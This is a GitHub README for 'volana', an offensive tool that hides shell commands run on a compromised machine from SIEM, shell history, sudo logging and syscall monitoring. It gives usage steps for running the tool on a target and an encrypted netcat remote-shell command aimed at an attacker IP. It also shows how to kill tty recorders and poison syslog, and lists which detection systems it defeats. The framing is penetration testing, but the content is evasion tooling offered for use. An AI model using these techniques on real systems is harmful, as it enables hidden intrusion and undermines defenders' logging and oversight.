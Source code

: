 
<div align="center">
<h3><i>volana<sub> (moon in malagasy)</i></h3>
<img src="https://github.com/ariary/volana/blob/main/img/moon.png">


<p><strong><pre><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🌚<sub>(hide from)</sub></a>; <a href="#visible-for">🌞<sub>(detected by)</sub></a> } </code></pre></strong></p>
<h4> Shell command obfuscation to avoid SIEM/detection system </h4>
 <p> During pentest, an important aspect is to <b>be stealth</b>. For this reason you should <b>clear your tracks after your passage</b>. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the afterwards cleaning part alone useless.<br><br><code>volana</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana executes for you). Like this you <b>clear your tracks DURING your passage</b></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawn it, you are a hacker, it's your job ! [otherwise](#from-non-interactive-shell)). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/volana/releases/latest/download/volana

## Execute it
./volana

## You are now under the radar
volana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
volana » [command]
```

Keyword for volana console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `volana` with embedded encryption key.

**On attacker machine**
```shell
## Build volana with encryption key
make build.volana-with-encryption

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
volana encr "nc [attacker_ip] [attacker_port] -e /bin/bash"
>>> ENCRYPTED COMMAND
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./volana decr [encrypted_command]
## Now you have a bindshell, spawn it to make it interactive and use volana usually to be stealth (./volana)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `volana` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `volana` launching command line will be catched

* Detection systems that are based on history command output
* Detection systems that are based on history files
  * `.bash_history`, ".zsh_history" etc ..
* Detection systems that are based on bash debug traps
* Detection systems that are based on sudo built-in logging system
* Detection systems tracing all processes syscall system-wide (eg `opensnoop`)
* Terminal (tty) recorder (`script`, `screen -L`, [`sexonthebash`](https://github.com/ariary/sexonthebash), `ovh-ttyrec`, etc..)
  * Easy to detect & avoid: `pkill -9 script`
  * Not a common case
  * `screen` is a bit more difficult to avoid, however it does not register input (secret input: `stty -echo` => avoid)
  * Command detection Could be avoid with `volana` with encryption 

### Visible for

* Detection systems that have alert for unknown command (volana one)
* Detection systems that are based on keylogger
  * Easy to avoid: copy/past commands
  * Not a common case
* Detection systems that are based on syslog files (e.g. `/var/log/auth.log`)
  * Only for `sudo` or `su` commands
  * syslog file could be modified and thus be poisoned as you wish (e.g for */var/log/auth.log*:`logger -p auth.info "No hacker is poisoning your syslog solution, don't worry"
* Detection systems that are based on syscall (eg auditd,LKML/eBPF)
  * Difficult to analyze, could be make unreadable by making several diversion syscalls
* Custom `LD_PRELOAD` injection to make log
  * Not a common case at all

## Bug bounty

Sorry for the clickbait title, but no money will be provided for contibutors. 🐛

 Let me know if you have found:
* a way to detect `volana`
* a way to spy console that don't detect `volana` commands
* a way to avoid a detection system

[Report here](https://github.com/ariary/volana/issues/new/choose)

 
## Credit
* [8 ways to spy on console](https://github.com/annmuor/zn2021_8ways)
* [moonwalk](https://github.com/mufeedvh/moonwalk): similar tool that clear tracks AFTER passage
